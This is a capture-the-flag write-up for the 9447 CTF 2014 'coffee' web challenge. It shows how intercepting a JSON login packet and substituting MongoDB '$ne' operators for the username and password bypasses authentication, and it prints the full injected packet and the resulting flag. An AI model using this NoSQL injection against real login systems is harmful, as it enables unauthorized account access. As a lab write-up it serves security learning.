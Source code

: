 ## 9447 Security Society CTF 2014 - coffee (Web 120)
##### 29-30/11/2014 (36hr)
___

### Description: 
You're a hipster, and as such are too good for a job. You do however, need 
your grande decaf hazelnut soy latte - stat! Acquire some coffee without resorting 
to selling one of your vintage vinyls.

The URL for the coffee ordering site is: http://coffeeio.9447.plumbing/
___
### Solution

We have an coffee ordering site. When we get an order a user/pass form appeared. The 
goal is to login (as any user). The site uses AJAX JSON for making the requests. When
try to login the following packet is sent (we use burpsuite to tamper the packet, HTTP
live headers won't work because we have asyncronous requests):
```
42["payment", {
	"username":"foo",
	"password":"bar",
	"order": { 
		"type":true,
		"size":"bucket",
		"milk":"almond",
		"decaf":true,
		"orange":false,
		"caramel":false,
		"hazelnut":false,
		"pumpkinSpice":false
		}
	}
]
```

That's clearly an JSON SQLi. We try this:
```	
    "username":{"!=":"foo"},
	"password":{"!=":"foo"},
```
This means that the username is checked whether it is NOT equal with foo. Unfortunately
this doesn't work. Then we try the nosqli type: $ne, and we get the flag:
	**9447{c0ffee_pr1ces_in_AUS_suck_3_50_is_standard}**

The packet used for the injection is shown below:
```
42["payment", {
	"username":{"$ne":"foo"},
	"password":{"$ne":"foo"},
	"order": { 
		"type":true,
		"size":"bucket",
		"milk":"almond",
		"decaf":true,
		"orange":false,
		"caramel":false,
		"hazelnut":false,
		"pumpkinSpice":false
		}
	}
]
```
Useful info from: http://tasteless.se/2014/12/9447-security-society-ctf-2014-bashful-and-coffee-writeup/

To know it was about NoSQL you should have spotted the /nodes_modules/ directory where 
you could have seen mongodb directory.

___
